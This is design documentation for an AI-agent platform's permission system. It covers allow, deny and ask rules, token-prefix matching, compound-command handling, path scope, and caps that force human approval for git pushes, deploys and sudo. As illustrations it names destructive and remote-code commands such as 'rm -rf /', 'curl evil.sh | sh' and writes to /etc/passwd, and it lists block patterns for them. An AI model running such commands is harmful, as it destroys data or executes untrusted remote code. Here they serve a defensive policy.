

# Permissions

Every action with an external effect is born as a `proposed_action` and goes
through here before executing. This page is the exact format and semantics —
the rules themselves are in [Business rules](../business-rules.md#rn-004).

## The file

`permissions.json` lives at the **root of the project workspace** — it's a
real file on disk, versionable, not a column in the database.

```json
{
  "allow": ["Terminal(pnpm test:*)", "Terminal(git status)"],
  "deny":  ["Terminal(curl:*)"],
  "ask":   ["GitPush()"]
}
```

Three lists, three meanings:

| list | meaning |
|---|---|
| `allow` | `auto_approve` — the action executes without asking |
| `deny` | `deny` — refused, and nothing reverts this |
| `ask` | `require_approval` — goes to the approval queue |

No list matches? The action stays `pending` by default. **The absence of a
rule never becomes a permission.**

### With which credential the auto-approved action executes

`auto_approve` means **nobody decided** — `proposed_actions.decided_by`
stays `NULL`. This matters for who executes: a git action against a remote
provider needs a token, and "the token of whoever decided" doesn't exist on
this path.

The answer is the **workspace owner** ([RN-082](../business-rules/custo.md#rn-082)),
the same one as the LLM key ([RN-058](../business-rules/custo.md#rn-058)) —
whoever funds the account funds the agents, and that doesn't change based on
who clicks.

It's worth knowing because the alternative fails silently: while the api
resolved by `decided_by`, **every auto-approved PR on a remote repository
died** with `Requires authentication`, and only when a human clicked each
one did the path work — exactly the ladder that autonomy exists to avoid.

## The pattern format

```
Label(content)
```

The label is the action type in PascalCase. The content is only used for
`Terminal`; in the other types it needs to be **empty** — `GitPush()`
matches any push, and `GitPush(algo)` matches nothing.

| action type | label | minimum role |
|---|---|---|
| `terminal` | `Terminal` | developer |
| `git_commit` | `GitCommit` | developer |
| `write_file` | `WriteFile` | developer |
| `git_push` | `GitPush` | maintainer |
| `pr_open` | `PrOpen` | maintainer |
| `git_repo_create` | `GitRepoCreate` | maintainer |
| `git_branch_create` | `GitBranchCreate` | maintainer |
| `git_branch_protect` | `GitBranchProtect` | maintainer |
| `open_adr_pr` | `OpenAdrPr` | maintainer |
| `open_infra_pr` | `OpenInfraPr` | maintainer |
| `git_merge` | `GitMerge` | maintainer |
| `instruction_patch` | `InstructionPatch` | maintainer |
| `parallelize` | `Parallelize` | maintainer |
| `raise_max_parallel` | `RaiseMaxParallel` | maintainer |
| `propose_execution_plan` | `ProposeExecutionPlan` | maintainer |
| `assess_implementability` | `AssessImplementability` | maintainer |
| `container_start` | `ContainerStart` | maintainer |
| `spend` | `Spend` | **owner** |

The minimum role is checked **before** the file. Without it, `deny` —
`permissions.json` cannot grant what IAM denies

`parallelize` (Phase 14d) is the only one whose effect isn't touching code
or repository: it requests more AGENTS. It's at `maintainer` for the same
reason as `spend` — whoever authorizes cost is whoever is accountable for
the project. It only exists above the lead's cap; within it there's no
action, because there's nothing to decide
([RN-083](../business-rules/custo.md#rn-083))
([RN-005](../business-rules.md#rn-005)).

`propose_execution_plan` (ADR 0086, [RN-284](../business-rules.md#rn-284))
is the Dev Lead's plan — how many agents per module and why, before any of
them come up. Same caliber as `parallelize`: a decision about HOW MUCH the
product will spend on parallelism, just at the start instead of at a cap
overrun. Unlike `parallelize`/`raise_max_parallel`, it is NOT in the
absolute-caps block — it can be configured as `auto_approve`, like
`open_adr_pr`/`open_infra_pr` — and while it's `pending`, the Dev Lead's
turn stays SUSPENDED waiting for the decision, not just the conversation
stalled.

`assess_implementability` (ADR 0090, [RN-340](../business-rules.md#rn-340))
is the implementability assessment of a story (gate `implementavel`,
`docs/gates.yml`) — SAME caliber and SAME reasoning as
`propose_execution_plan`: an initial session decision, not a cap overrun,
and therefore also outside the absolute-caps block. It suspends the Dev
Lead's turn the same way while `pending`.

## How a pattern matches a command

Not by substring. The command is tokenized with shell rules and the pattern
matches by **token prefix**:

| pattern | command | matches? |
|---|---|---|
| `Terminal(pnpm test)` | `pnpm test` | ✅ |
| `Terminal(pnpm test)` | `pnpm test --watch` | ✅ (prefix) |
| `Terminal(pnpm test)` | `pnpm build` | ❌ |
| `Terminal(pnpm test:*)` | `pnpm test:unit` | ✅ (`*` at the end of the token) |
| `Terminal(rm)` | `sudo rm -rf x` | ❌ — `rm` is not the first token |

The `*` applies **inside a token**, at the end. It's not a path glob:
`Terminal(rm -rf /*)` matches the literal token `/*`, not "anything under
`/`".

Environment variables are preserved literally: `$HOME` stays `$HOME` in the
match, instead of expanding to empty — expanding would silently change what
is being compared.

## Compound command

A command with `&&`, `;`, `|`, `||` or `&` is split into segments, and
**each segment is evaluated separately**:

- Any segment in `deny` → the whole command is `deny`.
- **All** segments in `allow` → `auto_approve`.
- Any other combination → `require_approval`.

**Redirection is not chaining.** `>`, `>>` and `<` do NOT split a segment:
`cat x 2>/dev/null` is ONE command whose verb is `cat`. The redirection
target remains a token of the segment, and that's why `echo x >
/etc/passwd` continues to be blocked by the path-scope cap — what changed
was the VERB becoming correct, not the path becoming free.

`/dev/null`, `/dev/stdin`, `/dev/stdout` and `/dev/stderr` don't count as a
user path: they discard or carry output, they're nobody's file. The list is
exactly this and not all of `/dev` — `/dev/sda` is a disk, and remains out
of scope.

This is deliberate and worth understanding: a segment with no rule at all
becomes a **concrete** `require_approval` opinion, not silence. It's what
prevents `pnpm test && curl evil.sh | sh` from being auto-approved because
the first half was in `allow`.

## Built-in patterns

Three patterns are `deny` **always**, even without appearing in the file:

```
Terminal(rm -rf /)
Terminal(rm -rf /*)
Terminal(rm -fr /)
```

They are not a comprehensive security list — they're a floor. Real
protection comes from `allow` being explicit and everything else falling
into approval.

## What activating execution seeds

Activating execution writes the `DEV_TERMINAL_ALLOW_PATTERNS` patterns
(`apps/api/src/domain/actions/dev-terminal-patterns.ts`) into the project's
`allow`. There are two families:

- **reading the worktree itself** — `ls`, `pwd`, `find`, `cat`, `head`,
  `tail`, `grep`, `wc`, `echo`, `git status`, `git diff`, `git log`;
- **reading git history/remote/config** — `git branch
  -a/-r/-v/--list/--show-current`, `git remote -v`, `git remote show`, `git
  worktree list`, `git show`, `git for-each-ref`, `git ls-tree`, `git
  rev-parse`, `git config --get` (see [RN-143](../business-rules/custo.md#rn-143));
- **build and test** — `pnpm install`, `pnpm test`, `npm run`, `npx
  vitest`, `mix test`, `pytest`, `go test`, `cargo test`, among others.

The third family exists because `ReportDone` only allows opening a PR after
a `terminal` with `exit 0` in the history. The first exists because the
agent **looks before it builds**: without it, every `ls -la` in a newly
provisioned repository fell into approval, came back as `status pending` —
and not as the command's output — and burned a ToolLoop iteration until the
task died by limit (see [RN-068](../business-rules/custo.md#rn-068)). The second
exists because `git status`/`diff`/`log` are enough to look at the
worktree, but not for the agent to orient itself in the history and remotes
of a newly adopted repository — a real session spent dozens of manual
approvals on subcommands like `git branch -a` or `git worktree list` that
fell outside `allow` and pushed to manual approval any compound command
they appeared in.

This does NOT loosen anything described above. It still holds that `deny`
beats `allow`, that the built-in patterns remain active, that matching is
by **token** prefix (`ls` allowed doesn't allow `lsof`), and that a
compound command requires EVERY segment to match — so `ls && rm -rf /`
doesn't pass because of the `ls`.

The second family requires extra care, because prefix matching allows
ANYTHING after the prefix that matched: a bare pattern `Terminal(git
branch)` would match both `git branch -D nome` (deletes) and `git branch
nome-nova` (creates) as well as the plain listing, because it can't see
what comes after. That's why `branch`, `remote`, `worktree` and `config` —
the four that have a MUTATING sibling — only got in ANCHORED by the flag
that makes the read unambiguous (`-a`/`-v`/`show`/`list`/`--get`), never by
the bare verb; `git branch -D/-d/-m/-M`, `git remote add/remove/set-url`,
`git worktree add/remove/prune` and `git config <chave> <valor>` (without
`--get`) still require approval. `show`, `log`, `for-each-ref`, `ls-tree`
and `rev-parse` didn't need an anchor: none of their continuations mutate
the repository.

Auto-approving `terminal` via `agent_autonomy` would be different and is
not what's done: it would free up ANY command inside the engine container,
with no file in the middle.

## The complete decision order



**Node `Z` changed position** ([RN-418](../business-rules.md#rn-418),
revises [RN-106](../business-rules/autenticacao.md#rn-106)): until the introduction of
the local runner, it sat right after IAM and returned `deny` — now it's a
CAP, in the same final block as the other three, applied after
`agent_autonomy` and `permissions.json` have already given their opinion.
See the section
["The boundary of external effect and privileged command"](#a-fronteira-de-efeito-externo-e-comando-privilegiado-rn-418)
below for why.

### "Auto mode": the `agent_autonomy` wildcard ([RN-153](../business-rules/autenticacao.md#rn-153))

The `agent_autonomy has an opinion?` node in the diagram above doesn't
know, and doesn't need to know, whether the opinion came from a SPECIFIC
rule (`actionType: "terminal"`) or from the `actionType: "*"` wildcard —
"auto mode": autonomy for ANY type of action by that agent, turned on with
a click on "Automatic mode" in the `ApprovalCard`. The resolution happens
BEFORE this diagram begins, in a single repository:
`DrizzleAgentAutonomyRepository.findMode` looks up the specific rule and
the wildcard in the same query, and returns the specific one when both
exist — writing `terminal: deny` with `"*": auto_approve` turned on still
denies `terminal` for that agent, while freeing up the rest.

That's why the diagram didn't get a new node, and it's proof that the
caps, right below, apply to "auto mode" with no exception declared
anywhere: they react to `current.policy === 'auto_approve'`, never to its
origin ([RN-154](../business-rules/autenticacao.md#rn-154)).

"Auto mode" requires `maintainer` — the same role that already protected
`PUT .../agent-autonomy` before the wildcard existed. Turning it off
reuses the manual/auto toggle the agent card already had in
Overview/Executors: with the wildcard written, the toggle switches to
editing IT instead of the usual representative type, and "manual" on it is
the same wildcard rewritten as `require_approval`.

## The boundary of external effect and privileged command (RN-418) {#a-fronteira-de-efeito-externo-e-comando-privilegiado-rn-418}

**Revision of [ADR 0065](../adr/0065-container-por-projeto-a-fronteira-deixa-de-ser-politica.md)
by [ADR 0102](../adr/0102-revisao-do-adr-0065-teto-absoluto-substitui-deny.md)**
— a GLOBAL and explicit decision by the product owner, confirmed after an
automatic security warning about the change (the full history is in the
ADR). What follows describes the CURRENT behavior; the previous version
(unconditional `deny`, applied before any permissive stage) was replaced,
not loosened — see why right below.

`git push`, `git remote add`/`set-url`, `git merge`, the provider CLIs
(`gh pr create`, `gh pr merge`, `glab mr create`/`merge`, releases and
workflow dispatch), common deploy commands (`kubectl apply`, `helm
upgrade`, `terraform apply`, `docker push`, `npm publish`, ...) and now
also `sudo`/`doas` in a `terminal` command are an **ABSOLUTE CAP** — in the
same final block as the other three caps (see ["Caps"](#caps) below),
applied after `agent_autonomy` and `permissions.json` have already given
their opinion: if the verdict up to that point was `auto_approve`, it
becomes unconditional `require_approval`. Neither the `"*"` wildcard for
"automatic mode" nor an `allow` entry in `permissions.json` can promote it
back.

**Why `require_approval` is now safe, when before it required `deny`.**
The historical reason for the `deny` was concrete: "always allow" writes
the pattern into `allow`, and a single click would be enough to reopen the
door forever. That gap was closed AT THE SOURCE, not worked around:
`ApproveAlwaysActionUseCase`/`patternForAction`
(`apps/api/src/application/use-cases/actions/approve-always-action.use-case.ts`)
REFUSE to write a pattern into `allow` for a terminal action with git
external effect or a privileged command — the user still approves the
specific instance through the normal flow, but "always allow" never writes
the pattern for these two cases. Without this refusal, the cap would be
decorative.

`sudo`/`doas` got their own category in `external-effect.ts`
(`comandoPrivilegiadoNoComando`), matching by VERB in any segment — same
principle as `efeitoExternoNoComando` for git, which continues matching by
**token prefix**, ignoring global flags in the middle (`git -C /tmp push`
matches `git push`). Each segment of a compound command is checked: `pnpm
test && git push origin main` is blocked by the second segment, the same
way a compound command already requires every segment to match to become
`auto_approve`.

The cap doesn't take power away from the agent: for git, the error message
keeps pointing to which **typed** action to use — `git_push`, `git_merge`
or `pr_open` — which is born a `proposed_action`, follows the normal
pipeline, and records in the event log what was pushed and to where (it's
the path the dev agent already uses today, `agent_io.ex`). `sudo`/`doas`
don't have an equivalent typed action — the message just explains why that
command requires a human decision.

**Where this matters most now**: the
[local runner](../adr/0103-runner-local-execucao-na-maquina-do-usuario.md)
executes ALREADY approved commands on the user's own machine, with their
own privileges — it's exactly the scenario where a legitimate `sudo` (or
an attempt to escape via `sudo`) needs a human stop guaranteed by
construction, not by `permissions.json` convention.

## Path scope

A `terminal` command is also evaluated by **where it touches**, not just
by the verb ([ADR 0055](../adr/0055-escopo-de-caminho-na-politica-de-terminal.md),
[RN-075](../business-rules/custo.md#rn-075)). The project folder —
`<PROJECT_WORKSPACES_ROOT>/<workspace_dir_name>`, where `permissions.json`
and all agent worktrees live — is the **scope**. `workspace_dir_name`
([ADR 0066](../adr/0066-nome-de-pasta-legivel-do-workspace.md),
[RN-109](../business-rules/autenticacao.md#rn-109)) is the folder name frozen at
project creation — readable (`<slug>-<8 chars of the id>`) in a new
project, the plain UUID in a project from before that change.

**A project in `local` mode has a different scope, and the difference
matters here** ([ADR 0072](../adr/0072-projeto-local-ou-container.md),
[RN-169](../business-rules/autenticacao.md#rn-169)/[RN-170](../business-rules/autenticacao.md#rn-170)):
the root becomes the **absolute path the user typed at creation**, not
`join(PROJECT_WORKSPACES_ROOT, workspace_dir_name)`.

Everything this section describes still holds — the scope tightens and
loosens exactly the same way, and `deny` still wins first. What changes is
what it CONTAINS. And the consequence is declared without softening in ADR
0072: the **structural** containment of the `join` — "the result never
leaves the managed root, whatever happens to the column" — ceases to exist
for these projects. What replaces it is the creation-time validation
(RN-170: absolute, no `..`, existing, writable, never a system root, never
overlapping the Brabo checkout), plus the LEXICAL revalidation of the same
predicate on every derivation of the root — so that a row tampered with
directly in the database doesn't turn into a terminal scope at `/`.

Path comparison is **lexical and without regex over the input**: trimming
trailing slashes is an O(n) scan, not `.replace(/\/+$/, '')`. The old
pattern was flagged by CodeQL as polynomial ReDoS (HIGH) — it forces the
engine to try every starting position, and degrades to O(n²) with many
slashes. The input here comes from an agent command, so it's not a place
for backtracking regex.

The scope does two opposite things, and it's the combination that matters:

**Tightens.** A command that touches a path from outside is never
auto-approved, no matter how much the verb is in `allow`. Without this, an
allowed `Terminal(cat)` would auto-execute `cat
/workspace/apps/engine/lib/engine/actions/git_executor.ex` — the platform
code that runs the agent — and reach into other projects' worktrees.

**Loosens.** Within the scope, `cd` stops being a verb that needs
permission: it's the scope declaration itself. Without this, the dev
agent, which always emits `cd <caminho> && <verbo>`, would run into the
compound-command rule — every segment needs to match — and **every**
command would stop for approval, no matter how much the verb was allowed.

Three limits worth understanding:

- **Scope permits, it doesn't exempt.** Being in the project folder
  doesn't make `curl … | sh` safe: a verb outside `allow` still requires
  approval.
- **Outside the scope is `require_approval`, not `deny`.** The agent may
  have a legitimate reason to look outside; who decides remains you.
- **Normalization is lexical, not `realpath`.** `<raiz>/../..` is resolved
  and rejected; a symbolic link inside the project pointing outward is
  **not** detected. Scope is policy, not isolation.

Which tokens are checked: **absolute** ones (start with `/`) and ones that
contain `..`. A relative one without `..` resolves under the `cwd`, which
was already checked — and treating `-maxdepth`, `4`, or `*.ex` as a path
would reject a legitimate command without gaining any security.

Two properties that fall out of this:

**`deny` wins immediately.** No matter what stage it appears in, it
returns right away. There's no configuration that reverts a `deny`.

**A silent stage never downgrades.** If `agent_autonomy` said
`auto_approve` and `permissions.json` has no rule for that action, the
result stays `auto_approve` — the file doesn't "vote against" by
omission. Each stage can only raise the permissiveness of the previous
one.

## Caps

Applied **last**, after everything else:

| cap | effect | why |
|---|---|---|
| `git_merge` with destination in `dev`, `qa`, `rc` or `main` | `auto_approve` → `require_approval` | merge into a protected branch is always your decision ([RN-006](../business-rules.md#rn-006)) |
| `instruction_patch` | `auto_approve` → `require_approval` | you need to see the diff before one agent changes another's behavior ([RN-007](../business-rules.md#rn-007)) |
| `parallelize` and `raise_max_parallel` | `auto_approve` → `require_approval` | spending on more agents is your decision; without this cap the lead's limit would be decorative, and raising the cap itself would be the product raising its own spending limit ([RN-086](../business-rules/custo.md#rn-086)) |
| `terminal` with external-effect git (push/PR/deploy) or `sudo`/`doas` | `auto_approve` → `require_approval` | external-effect git and privileged commands are never auto-approvable, even with "automatic mode" on ([RN-418](../business-rules.md#rn-418), revises [RN-106](../business-rules/autenticacao.md#rn-106)) — see the dedicated section above |

A cap downgrades `auto_approve` to `require_approval`; it does **not**
turn `deny` into something else, because `deny` would have already
returned earlier.

:::note Why `rc` is still on the list

The `rc` rung left the branch policy
([ADR 0030](../adr/0030-politica-de-branches-mecanizada.md)) and the
bootstrap stopped creating it ([RN-029](../business-rules.md#rn-029)) —
but it's still here, in `domain/actions/protected-branches.ts`.

This list decides what the merge lock **refuses**, and repositories
bootstrapped by earlier versions of Brabo still have the branch. Removing
it from here wouldn't remove anything from anyone's repository: it would
only make a `git_merge` with destination `rc` auto-approvable, on a branch
someone might be using as production.

Protecting a branch that doesn't exist costs nothing. Unprotecting one
that exists costs dearly — and the asymmetry is deliberate.

:::

The difference between a cap and a default: the default is what happens
when nobody configured anything; the cap is what happens **regardless** of
what was configured.

## What happens to the agent while the decision doesn't come

A `pending` action isn't just a row waiting for a click: on the other side
there's an agent stopped.

When the tool it called becomes pending, its loop **suspends**, holding on
to the task, the worktree, and the conversation history, and it enters
`awaiting_approval`. Your decision emits `task.action_settled`, which
wakes it up: the real result of the command takes the place where the
response would be, and the loop resumes from where it stopped.

**Refusing also responds.** The reason takes the place of the result, and
the agent learns that path is closed instead of waiting forever — denying
doesn't leave it stuck.

This matters for whoever operates: approving late doesn't waste the work
already done, and the approval queue isn't asynchronous for convenience —
it's literally what the agent is waiting for. Before this, `pending` came
back as if it were the command's response, and the agent burned its
iteration cap trying something else until the task died without a single
line written ([RN-073](../business-rules/custo.md#rn-073)).

**With one exception: engine restart.** The suspended loop lives in
memory, so a restart takes it down with it. In that case the task does
**not** stay waiting: it goes back to the blocked queue, with the reason
and origin `infra` in the event log, and a decision made after that has
nowhere left to be applied — the decided action stays recorded, but the
turn that was waiting for it no longer exists. If you approved and nothing
happened, this is the first place to look.

Auto-approval doesn't go through here: it executes at the proposal and the
result comes back in the same turn — which is exactly the value of having
the patterns from the previous section.

**The Dev Lead suspends the same way, with one difference on restart**
(ADR 0086, [RN-284](../business-rules.md#rn-284)). It's conversational, it
has no worktree or task — what suspends is the turn's synchronous
`handle_call`, via `agent.status: awaiting_approval`. Unlike the dev
agent, it does NOT have a queue to return to on an engine restart: the
decision remains recorded and visible in Approvals, but the Dev Lead
doesn't narrate the outcome on its own — the process that was waiting
died, and the next restart brings up a new Dev Lead, with no subscription
for that action. An accepted and declared gap, not a disguised one.

## What gets written for each decision

Every proposed action and every decision about it become a **domain
event** in `session_events`, with the real actor
([RN-049](../business-rules/custo.md#rn-049)):

| event | actor | when |
|---|---|---|
| `proposed_action.created` | the **agent** that proposed it | always, before any execution. `payload.status` says how the action was born: `pending`, `auto_approved`, or `denied` |
| `proposed_action.approved` | the **user** who clicked | only on manual approval (including `approve_always`) |
| `proposed_action.denied` | the **user** who refused | with `payload.reason` |
| `action.executed` / `action.failed` | `system` | execution outcome |

From this comes the only reliable way to separate the two things this
document describes:

- **human decision** = count `proposed_action.approved` events;
- **policy decision** = `proposed_action.created` with `status:
  auto_approved` and an agent actor. It never produces a `.approved`, and
  so it's never confused with a click.

This wasn't true until Phase 12e. The first three rows went **only to the
outbox**, which is transport — drained, marked with `processed_at`, and
pruned — and the decision survived only in `proposed_actions.decided_at`,
a column outside the timeline that the UI, the Psychologist, and the
Anamnesis read. The practical result was that "how many times did the
human approve" couldn't be answered in the Phase 10 dogfooding, which was
exactly that experiment's main metric.

Repository bootstrap is the deliberate exception: the mutations it
proposes don't emit `proposed_action.created` in the log, because they're
already narrated by `bootstrap.step_*` in the same session — counting them
again would inflate the approval metric with work nobody approved.
